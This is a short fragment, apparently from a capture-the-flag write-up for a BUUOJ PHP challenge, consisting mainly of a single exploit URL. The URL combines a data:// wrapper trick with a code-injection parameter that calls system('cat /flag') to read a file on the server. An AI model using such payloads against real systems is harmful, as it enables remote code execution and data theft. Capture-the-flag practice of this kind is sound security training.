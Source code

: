 ```php
}
```





```php
http://051b1af0-9322-4e25-9615-ea8c873f2568.node4.buuoj.cn:81/?text=data://text/plain,I%20have%20a%20dream&file=next.php&\S*=${getflag()}&cmd=system(%27cat%20/flag%27);
```

